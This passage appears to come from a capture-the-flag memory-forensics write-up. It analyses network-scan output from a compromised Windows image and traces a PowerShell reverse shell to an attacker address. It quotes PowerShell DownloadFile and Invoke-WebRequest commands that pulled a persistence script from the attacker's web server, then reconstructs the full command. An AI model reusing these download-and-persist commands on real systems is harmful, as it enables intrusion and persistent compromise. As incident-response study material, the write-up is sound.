0xb68cb2e57ec0  TCPv6   c0a8:9083::c8e0:70b2:8cb6:ffff  7001    ::      0       LISTENING       4752    java.exe        2021-08-06 15:31:00.000000 
0xb68cb2f2eb70  TCPv4   192.168.144.131 49674   51.103.5.186    443     ESTABLISHED     2676    explorer.exe    2021-08-06 15:29:22.000000 
0xb68cb31c6380  TCPv4   127.0.0.1       49682   127.0.0.1       49681   ESTABLISHED     4752    java.exe        2021-08-06 15:30:28.000000 
0xb68cb31c7010  TCPv4   127.0.0.1       49681   127.0.0.1       49682   ESTABLISHED     4752    java.exe        2021-08-06 15:30:28.000000 
0xb68cb31e5010  TCPv4   127.0.0.1       49687   127.0.0.1       49686   ESTABLISHED     4752    java.exe        2021-08-06 15:30:39.000000 
0xb68cb31f0d00  TCPv4   127.0.0.1       49677   127.0.0.1       49678   ESTABLISHED     4752    java.exe        2021-08-06 15:30:28.000000 
0xb68cb3236b90  UDPv4   0.0.0.0 0       *       0               4344    powershell.exe  2021-08-06 15:54:58.000000 
0xb68cb3236b90  UDPv6   ::      0       *       0               4344    powershell.exe  2021-08-06 15:54:58.000000 
0xb68cb3237830  TCPv4   192.168.144.131 49869   192.168.144.129 1339    CLOSE_WAIT      4344    powershell.exe  2021-08-06 15:51:40.000000 
0xb68cb3266780  TCPv6   2001:0:2851:782c:d2:133b:3f57:6f7c      7001    ::      0       LISTENING       4752    java.exe        2021-08-06 15:31:00.000000 
0xb68cb32ba4f0  TCPv6   ::1     7001    ::      0       LISTENING       4752    java.exe        2021-08-06 15:31:01.000000 
0xb68cb335c260  UDPv4   0.0.0.0 0       *       0               4344    powershell.exe  2021-08-06 15:54:58.000000 
0xb68cb33b4d00  TCPv4   192.168.144.131 80      192.168.144.1   27919   CLOSED  508     svchost.exe     2021-08-06 15:51:39.000000 
0xb68cb346d370  TCPv4   192.168.144.131 49903   192.168.144.129 1337    CLOSED  1488    svchost.exe     2021-08-06 16:17:52.000000 
0xb68cb34faa40  TCPv4   192.168.144.131 49901   192.168.144.129 1337    CLOSED  1488    svchost.exe     2021-08-06 16:15:52.000000 
0xb68cb350dab0  TCPv4   192.168.144.131 49907   192.168.144.129 1337    CLOSE_WAIT      1488    svchost.exe     2021-08-06 16:21:53.000000 
0xb68cb3578ec0  UDPv4   0.0.0.0 5355    *       0               1100    svchost.exe     2021-08-06 16:11:24.000000 
0xb68cb380eec0  UDPv4   0.0.0.0 0       *       0               4344    powershell.exe  2021-08-06 15:54:58.000000 
0xb68cb380eec0  UDPv6   ::      0       *       0               4344    powershell.exe  2021-08-06 15:54:58.000000 
0xb68cb3832260  UDPv4   0.0.0.0 5355    *       0               1100    svchost.exe     2021-08-06 16:11:24.000000 
0xb68cb3832260  UDPv6   ::      5355    *       0               1100    svchost.exe     2021-08-06 16:11:24.000000 
0xb68cb385e2e0  TCPv4   192.168.144.131 49905   192.168.144.129 1337    CLOSED  1488    svchost.exe     2021-08-06 16:19:53.000000 
0xe000001a9300  TCPv4   0.0.0.0 49668   0.0.0.0 0       LISTENING       1592    spoolsv.exe     2021-08-06 15:26:34.000000 
0xe000001a9300  TCPv6   ::      49668   ::      0       LISTENING       1592    spoolsv.exe     2021-08-06 15:26:34.000000 
0xf8024bdf2ec0  TCPv6   c0a8:9083::c8e0:70b2:8cb6:ffff  7001    ::      0       LISTENING       4752    java.exe        2021-08-06 15:31:00.000000 
0xf8024be475c0  TCPv4   127.0.0.1       49686   127.0.0.1       49687   ESTABLISHED     4752    java.exe        2021-08-06 15:30:39.000000 
0xf8024bf34ec0  UDPv4   0.0.0.0 0       *       0               4344    powershell.exe  2021-08-06 15:54:58.000000
```

From here, we can checkout powershell.exe and its connection with state CLOSE_WAIT and it has attacker IP address and PORT for reverse shell: `192.168.144.129 1339`

## Q#18 The attacker downloaded multiple files from the his own web server. Provide the Command used to download the PowerShell script used for persistence?

Just searched an attacker IP address with strings and grep and found:

```bash
strings memory.mem|grep "192.168.144.129"                                                                                                                                                                                          
.DownloadFile("http://192.168.144.129:1338/presist.ps1", "./presist.ps1")
-WebRequest -Uri "http://192.168.144.129:1338/pastebin.ps1" -OutFile "./pastebin.ps1"
```

So, the script for persistence is presist.ps1 as its name shows us, but the second string indicates the actual command that the attack used. From [https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters#invoke-webrequest](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters#invoke-webrequest) we can restore the full command. `Invoke-WebRequest -Uri "http://192.168.144.129:1338/presist.ps1" -OutFile "./presist.ps1"`